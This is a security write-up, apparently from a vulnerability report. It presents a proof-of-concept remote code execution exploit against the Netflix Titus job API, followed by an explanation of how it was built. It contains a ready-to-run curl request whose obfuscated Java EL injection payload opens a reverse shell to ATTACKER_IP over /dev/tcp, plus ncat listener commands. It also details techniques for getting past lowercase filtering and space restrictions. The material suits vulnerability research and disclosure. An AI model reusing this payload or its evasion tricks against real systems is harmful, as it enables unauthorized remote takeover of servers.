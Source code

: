 Step 4: Exploit and remediation

Step 4.1: PoC

To get a shell, you'll need a system with ports 5060, 2222 free(and allowed through firewall). Also DO NOT change the port numbers anywhere as they _might_ interfere with payload logic

Replace the following texts-
- HOST_IP: with host IP Address or domain name
- ATTACKER_IP: with your IP Address or domain name

### Step 1
Now first get on 2 shells on your system and run-
```bash
ncat -k -l -p 5060
ncat -k -l -p 2222
```
(I like ncat, but netcat's cool as well)

### Step 2
Now run this curl request from anywhere and replace HOST_IP and ATTACKER_IP
```bash
    curl --location --request POST 'HOST_IP:7001/api/v3/jobs' \
    --header 'Content-Type: application/json' \
    --data-raw '{
        "container": {
            "softConstraints": {
                "constraints": {
                    "#{'\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\'').class.methods[7].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\''), '\''1'\'').class.methods[3].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\'').class.methods[7].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\''), '\''java.lang.8untime.get9untime().exec(\" /bin/bash -c 'sh\</dev/tcp/ATTACKER_IP/5060\>/dev/tcp/ATTACKER_IP/2222' \")'\''.replace('\''8'\'', 82).replace('\''9'\'', 82))) + '\'''\''}": "lol"
                }
            }
        },
        "service": {
            "retryPolicy": {
                "immediate": {
                    "retries": 10
                }
            }
        }
    }'
```

### Step 3
Run any `sh` command into the `5060` ncat connection

### Step 4
???

### Step 5

#### PROFIT

![An innocent application getting pwned](images/pwn.png)

### So what does that all gobbled up thingy do?

First step- How did I figured this JSON and the endpoint out. Thanks to netflix, they have a complete API documentation in their [titus-api-definitions](https://github.com/Netflix/titus-api-definitions) repository. The CodeQL shenanigans showed vulnerability in the constraint validator of the fields `softConstraints` and `hardConstraints` of Container class. So, if there's an endpoint that deserializes user controlled Container class, I get one step closer to RCE. One such enpoint is the endpoint that creates jobs using Job Descriptors, which in turn contains a Container - Bingo. All I had to do was to convert this [protobuf specification](https://github.com/Netflix/titus-api-definitions/blob/master/src/main/proto/netflix/titus/titus_job_api.proto) to REST JSON.

It is time for me to know more about Java EL Injection and [this awesome report](https://www.exploit-db.com/docs/english/46303-remote-code-execution-with-el-injection-vulnerabilities.pdf) on exploit DB taught me all.

After experimenting I observed that only Deferred EL Expressions seem to work and they are rather troublesome to work with. The main problem being-

> Deferred evaluation expressions take the form #{expr} and can be evaluated at other phases of a page lifecycle as defined by whatever technology is using the expression.
> - [Oracle Docs](https://docs.oracle.com/javaee/6/tutorial/doc/bnahr.html)

So I cannot use Multiple line payloads...

After trying `#{7*7}` weirdly I couldn't get any other testing payload to work, then I struck this-
```
#{''.class + ''}
```
andin the output I got- 
```
[class java.lang.String]
```

So what must have happened is that by default all expressions aren't being evluated but when they are addded with a `''` the `toString()` method is called. Similar to how this works- 
```java
System.out.println(1 + " one");
```

Next blocker is that sending UpperCase letters in the payload seems to break everything, probably everything is being converted to lowercase before execution. But there's a workaround for this 😉. To see that let me clean up the relevant part of my payload first.

```java
''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js').class.registerEngineMimeType.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js'), '1').class.getEngineByExtension.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js').class.registerEngineMimeType.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js'), 'java.lang.Runtime.getRuntime().exec(\" /bin/bash -c sh</dev/tcp/ATTACKER_IP/5060>/dev/tcp/ATTACKER_IP/2222 \")')'
```

Which is a twisted way to run-
```java
${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"/bin/bash -c sh</dev/tcp/ATTACKER_IP/5060>/dev/tcp/ATTACKER_IP/2222\\\")"))}'
```
(this payload was taken from that expoit DB report or this [security lab report](https://securitylab.github.com/advisories/GHSL-2020-030-dropwizard) or perhaps both ¯\\_(ツ)_/¯)

To deal with the UpperCase issue I came up with 2 solutions-

1. For Methods with uppercase letters in their name, I accessed using the `methods` array belonging to any `.class` object and using `invoke` reflection API to run it, eg `''.class.class.methods[14]` is used to access `java.lang.Class.forName(java.lang.String)`. Which method lies at which index? This came in handy in listing all of them- 

```java
import java.lang.reflect.*; 

public class HelloWorld{

     public static void main(String []args){
        Class a = Class.class;
        for (int i = 0; i< a.getMethods().length; i++)
        System.out.println(i + " -> " + a.getMethods()[i] );
     }
}
```

2. For Strings with uppercase letters, I though of various ways after going through all of the methods the `String` class gives and various Java gimmicks- 
  - `'aaa'.concat(B)` to append an ascii value or ascii value tyecasted to char
  - `aaa\u0042`Escaping Unicode characters
  - `'aaa'+(char)66` adding typecasted char directly to string
  - `'aaa1'.replace('1', 66)` replacing a dummy value with the ascii value

I spent hell lot of time on the first 3 but the last method, which seems the most absurd, worked... :/
So, these expressions on my payload should start making sense-
```java
'javax.script.1cript2ngine3anager'.replace('1', 83).replace('2', 69).replace('3', 77)
```
output-
```
0 -> public static java.lang.Class java.lang.Class.forName(java.lang.String) throws java.lang.ClassNotFoundException
...
14 -> public java.lang.Object java.lang.Class.newInstance() throws java.lang.InstantiationException,java.lang.IllegalAccessException
...
```

After getting `exec()` working I faced another blocker, `sh` doesn't give input redirection and piping, and `/bin/bash -c "command"` was rejecting spaces in the `command`. After some googling and struck [gold](http://zoczus.blogspot.com/2013/10/en-unix-rce-without-spaces.html)
This gave me an ez RCE as the `exec()` process is spawned as an independent process and I could freely communicate with `sh` over network :)
